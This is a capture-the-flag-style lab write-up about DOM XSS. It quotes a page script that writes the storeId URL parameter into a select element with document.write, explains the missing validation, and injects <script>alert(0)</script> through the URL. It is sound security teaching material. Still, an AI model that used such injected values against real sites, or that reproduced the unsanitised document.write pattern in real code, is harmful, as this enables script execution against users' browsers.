

# Lab: DOM XSS in document.write sink using source location.search inside a select element

> Lab Objective: perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function.

- Firstly, visit View Details page of any product, and review page source code, You'll find this JS code snippet.
  

```html
<form id="stockCheckForm" action="/product/stock" method="POST">
  <input required type="hidden" name="productId" value="5" />
  <script>
    var stores = ["London", "Paris", "Milan"];
    var store = new URLSearchParams(window.location.search).get("storeId");
    document.write('<select name="storeId">');
    if (store) {
      document.write("<option selected>" + store + "</option>");
    }
    for (var i = 0; i < stores.length; i++) {
      if (stores[i] === store) {
        continue;
      }
      document.write("<option>" + stores[i] + "</option>");
    }
    document.write("</select>");
  </script>
  <button type="submit" class="button">Check stock</button>
</form>
```

- This code is used to check how many units are available in a specific store (e.g., London).
  

- I can control the variable `store` in the following line when using the Burp Suite to send the `Check Stock` Request

```js
var store = new URLSearchParams(window.location.search).get("storeId");
```

- Since, he gets the value of `store` variable using `location.search` source, and doesn't check whether the value itself is in the available stores or not (available stores => `var stores = ["London", "Paris", "Milan"];`), and add it anyways to the DOM using `document.write` sink.

- So, I'll use the fact that `document.write` sink accepts script elements, and use this payload:

```html
<script>
  alert(0);
</script>
```

- I'll add the `storeId` in the URL as a parameter and the crafted payload as a value, and send that request

```
/product?productId=5&storeId=London<script>alert(0);</script>
```

- And the `alert` function is executed successfully.
  

- Therefore, the lab is solved successfully.
  

---
